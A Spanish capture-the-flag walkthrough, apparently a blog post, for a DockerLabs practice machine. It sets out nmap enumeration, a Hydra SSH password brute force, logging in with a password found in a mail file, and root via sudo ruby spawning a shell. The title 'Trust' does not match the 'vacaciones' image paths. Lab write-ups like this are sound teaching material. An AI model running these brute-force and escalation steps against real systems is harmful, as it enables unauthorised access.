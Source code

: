 ```yaml
---
layout: single
title: Trust - DockerLabs
excerpt: "Maquina Linux realizando intrusion por ataque de fuerza bruta al protocolo SSH"
date: 2024-05-17
classes: wide
header:
  teaser: https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png
  teaser_home_page: true
categories:
  - DockerLabs
tags:
  - linux
  - Muy facil
  - Fuerza Buta
  - Sudo
---
```


<p align="center">
  <img width="250" height="250" src="https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar ataque de fuerza bruta y una escalada de privilegios sencilla

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

```css
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
ssh-hostkey:
   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
_http-title: Site doesn't have a title (text/html).
_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Solamente estan abiertos 2 puertos el 22 donde corre el servicio `SSH` y el 80 donde corre el servicio `http` con Apache, voy a ver que en el servidor web coloco la url `http://172.17.0.2`

![000Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/000Vacaciones.png)

carga un página en blanco, voy a revisar el código fuente presioando las teclas `ctrl + u`

![0001Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/001Vacaciones.png)

veo un mensaje, el cual me sirve para enumerar 2 posibles usuario Juan y Camilo, por lo tanto voy a realizar un ataque de fuerza bruta con estos usuario al servicio `SSH`.

Primero voy a crear un listado de usuarios con el editor de texto `nano` al que voy a llamar `usuarios.txt` y le voy agregar los posibles usuario que encontré anteriormente ahora si voy a realizar el ataque de fuerza bruta con `Hydra`

![002Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/002Vacaciones.png)

```bash
hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -L        | ruta de lista de usuarios          |
| -P        | ruta del diccionario de contraseña |
| -t        | cantidad de hilos                  |
| ssh       | protocolo a realizar fuerza bruta  |

Consigo la contraseña del usuario camilo.

```css
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

# 2- Intrusion

Momento de realizar la conexión por SSH con las credenciales recién adquiridas

```bash
ssh camilo@172.17.0.2
```

procedo a buscar el correo que Juan le había dejado a Camilo usando la herramienta find

```bash
find / -iname *correo* 2>/dev/null
```

| parametro   | descripcion                                      |
| ----------- | ------------------------------------------------ |
| -iname      | para no distinguir entre mayúsculas y minúsculas |
| \*          | caracter comodin                                 |
| 2>/dev/null | para no mostrar los errores en pantalla          |

me arroja como resultado la siguiente ruta `/var/mail/correo.txt`

![004Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/004Vacaciones.png)

ejecuto `su juan` para cambiar al usuario juan e ingreso la contraseña que me indicó en el correo `2k84dicb`

# 3- Escalada de Privilegios

Ahora como Juan busco como escalar privilegios con `sudo -l` como resultado veo que tengo permisos para ejecutar el binario `ruby`

![005Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/005Vacaciones.png)

Me apoyo de la pagina [GTFObins](https://gtfobins.github.io/) para ver como escalar privilegios

ejecutando el siguiente comando

```bash
sudo ruby -e 'exec "/bin/sh"'
```

Listo conseguí escalar privilegios, ahora soy el usuario root

![006Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/006Vacaciones.png)
